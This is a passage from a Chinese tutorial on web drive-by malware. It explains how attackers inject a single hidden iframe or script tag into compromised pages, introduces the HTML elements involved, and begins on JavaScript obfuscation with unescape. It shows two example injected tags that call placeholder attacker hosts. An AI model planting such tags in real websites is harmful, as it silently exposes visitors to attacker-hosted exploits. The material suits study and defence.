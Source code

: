 图：某个Exploit Kit提供的漏洞利用脚本

网页挂马的方式最常见的就是通过注入代码，黑阔们可能会使用软件批量扫站，取得写入权限后向网页内注入恶意脚本。

通常，由于注入一大片脚本会导致文件大小突然变大很多，这样将很容易被发现，所以通常攻击者注入的都是简短的一行：

```
<iframe src=”http://something.eval”  width= 0 height=0/>

```

或者

```
<script src=”http://also.something.eval” />

```

这样，当用户访问当前网页时就会自动加载起攻击者的网页或者脚本。在早期的网马中，通常width / height 的值很小，或者iframe、script出现在html标记之前或者/html标记之后都会被认为是恶意的。后来逐渐发展，由国外的Exploit Toolkit带起来动态创建元素、302跳转。 以及国内网马也开始用Style标记隐藏元素，以及其他做法都出现了。

关于网马的提供源，可见参考资料(1)。最近几篇中，将穿插着同时介绍HTML，以及相关的网马知识，至于SWF、PDF之类的，将放在后面提一提。

由于这是本篇的最开始，所以我们先简单的介绍几个元素：

1. IFRAME
---------

* * *

![enter image description here](http://drops.javaweb.org/uploads/images/6d74ff2ae5f9bc10450b737918c2d0f85a8881e3.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/b0dc013315d99e6e6d04aa7241b57aafcaacd8c7.jpg)

图：IFRAME在IE中的显示效果

以上为一个IFRAME，用途是在当前网页内再用“框架”显示一个网页，这是最常见的。FRAMESET（+ FRAME）也可以做到。上图中alert部分的代码会在当前域执行。

FRAME相当于一个独立的网页，它（FRAME）的宿主是外层网页，它（FRAME）的内部元素宿主是该FRAME自身。如果需要配合body onload等事件触发漏洞的话，选择iframe将是一个不错的计划。

2. SCRIPT
---------

* * *

SCRIPT标签通过src可以加载一个存放于外部网站的脚本，这对控制网马攻击并插入当前网站的恶意代码的量有显著的作用。恶意利用代码的长度通常都不短，直接写入的话可能导致当前网站文件大小异常，或者流经网络的流量异常，从而被管理员很快发现。

简短的脚本也可以直接写入，例如几年前最为流行的MS06-014（CVE-2006-0003）漏洞。作用域为当前域。

然后，针对代码的混淆，假定各位已经掌握了基础的JavaScript/VBScript的相关知识，如果没有可以参考W3School的相关教程。我们先来认识一组函数，这组函数提供了加密/编码的功能：

```
unescape/ escape

```

这对函数互为逆反。

该函数的工作原理是这样的：通过找到形式为 %xx 和 %uxxxx 的字符序列（x 表示十六进制的数字），用 Unicode 字符 \u00xx 和 \uxxxx 替换这样的字符序列进行解码。(2)

